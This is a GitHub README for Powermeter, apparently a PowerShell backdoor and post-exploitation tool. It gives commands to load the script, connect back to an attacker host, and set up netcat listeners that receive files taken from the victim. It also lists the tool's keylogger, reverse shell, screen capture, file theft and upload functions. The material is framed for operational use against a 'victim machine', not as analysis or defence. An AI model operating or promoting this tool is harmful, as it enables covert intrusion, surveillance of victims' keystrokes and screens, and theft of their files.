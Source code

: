 # Powermeter
Powermeter is a basic powershell based backdoor/post exploit tool. Main functionalities are shown below. You can also check the video at the bottom of the page.
Note: It is highly recommended to watch the video at 1080p due to low quality of recording. It will be fixed soon :=)

To run this program you need to solve execution-policy problem on your system.

## How to run?
![pm1](https://github.com/mfcekirdek/Powermeter/blob/master/pm1.png "pm1")

	#Import powermeter functions
	>> PS C:\Users\decoder\Desktop> . .\powermeter.ps1
	
	#Start powermeter.
	#When this command is invoked, powermeter will establish a TCP connection to $SHOST:$SPORT (in this case 192.168.214.1:9190). After that, powermeter remote user interface will be ready to take commands and attacker will be able to use powermeter via this tcp connection.
	#$SPORT should be opened at $SHOST machine (in other words, attacker machine).'nc -lvp <SPORT>' command can do the trick. The main connection between powermeter and attacker will be established via this port. Attacker send commands to powermeter from this port. 
	#$FLPORT will be used for any job which requires file transfer (those are download,upload,screencap and keylogger threads). For example, if you want to download a from victim machine, you need to provide a listener $FLPORT at $SHOST machine like this: 'nc -lvp <FLPORT> > downloadedFile'. After that you can call the download function from powermeter shell like this: 'download C:\Users\decoder\Desktop\cozbeni.zip'
	>> PS C:\Users\decoder\Desktop> Start-Powermeter -SHOST 192.168.214.1 -SPORT 9190 -FLPORT 9192
	
	Parameters:
	SHOST - attacker machine's IP.
	SPORT - an open attacker machine port that waits for powermeter connection. #'nc -lvp <SPORT>' command can do the trick.
	FLPORT - attacker machine's file transfer port. This port should be opened at attacker's side to achieve jobs which includes downloading and uploading. (Screencapturing and keylogging are also inclusive because both of them use downloader threads. You may want to see the demo video to see how it works.)

### In main module:

![pm2](https://github.com/mfcekirdek/Powermeter/blob/master/pm1.png "pm2")

Powermeter>show options

Options
=============

	 Command                			 Description
	 -------                			 -----------
	 get sysinfo            			 Get system information about victim machine
	 get username           			 Get username of victim machine
	 set FLPORT=<port>      			 Set file transfer port
	 rshell                 			 Open reverse shell module
	 start keylogger        			 Start keylogger thread
	 show jobs              			 Show all active threads
	 stop job -keylogger    			 Stop keylogger thread and download captured keystrokes from file port
	 stop job -reverseShell 			 Stop reverse shell session and thread
	 stop job -sendFile     			 Stop file downloading thread
	 stop job -receiveFile  			 Stop file uploading thread
	 stop job -all          			 Stop all active threads
	 screencap -screen      			 Capture screenshot of victim machine [WHOLE SCREEN] and download it
	 screencap -activeWindow			 Capture screenshot of victim machine [ACTIVE WINDOW] and download it
	 download <fileFromVictim>			 Download a file from victim machine.[<fileFromVictim>: An absolute file path in victim machine that the attacker downloads]
	 upload <fileToVictim>  			 Upload a file to victim machine.[<fileToVictim>: An absolute file path in victim machine to store file uploaded by attacker]
	 exit                   			 Exit the program
	 Important: File transfer port should be opened at attacker's side to achieve downloading,uploading files.


In reverse shell module:

Powermeter>reverse_shell>show options

Options
=============

	 Command                			 Description
	 -------                			 -----------
	 set LHOST=<IPv4>       			 Set local IP address
	 set LPORT=<port>       			 Set local port address
	 run                    			 Start reverse shell
	 back                   			 Exit from reverse shell module


A quick demo video
=============

[![IMAGE ALT TEXT HERE](https://img.youtube.com/vi/0D49nX_bD_8/0.jpg)](https://www.youtube.com/watch?v=0D49nX_bD_8)

